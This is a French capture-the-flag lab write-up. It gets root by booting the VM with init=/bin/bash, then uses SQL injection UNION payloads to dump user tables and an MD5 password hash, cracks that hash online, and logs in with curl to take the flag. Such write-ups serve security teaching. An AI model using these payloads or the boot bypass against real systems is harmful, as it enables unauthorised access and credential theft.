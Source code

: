 # BONUS

## Obtention de nombreux flags

### Lancement de la VM

Lancer la VM et rester appuyé sur la touche `shift`.

### Obtention des droits root

Lancer la commande `live init=/bin/bash`.

### Récupération des flags

On peut récupérer tous les flags à l'exception de ceux contenus dans les bases de données sql grâce à la commande suivante:
`cat /var/www/html/includes/* /var/www/html/index.php | grep -i flag`

## 12_signin alternatif

Il est possible d'obtenir le flag de la page: [signin](http://10.12.1.129/?page=signin) sans utiliser de brute force.<br>
La base de données: `Member_Brute_Force` contient les hash md5 des utilisateurs:

### INJECTIONS SQL

La commande:
`1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`.<br>
permet d'apprendre que dans la base de données `Member_Brute_Force` se trouve une table unique: `db_default`.

La commande:
`1=1 UNION SELECT table_name, column_name FROM information_schema.columns`<br>
permet d'apprendre que dans la table "list_images" se trouvent les colonnes suivantes:

- id
- username
- password

Il est donc possible de vérifier le contenu de toutes ces tables.<br>
voici la partie intéressante de la commande:
`1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default`.

```
root
3bf1114a986ba87ed28fc1b5884fc2f8
```

On peut décrypter le mot de passe grâce au site [md5 decrypt](https://md5decrypt.net/), qui donne: `shadow`.<br>
Et lancer la commande:<br>
`curl -s -X GET  "http://10.12.1.129/?page=signin&username=root&password=shadow&Login=Login"`.<br>
Nous pouvons avoir le flag: `6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b26e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b26e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`.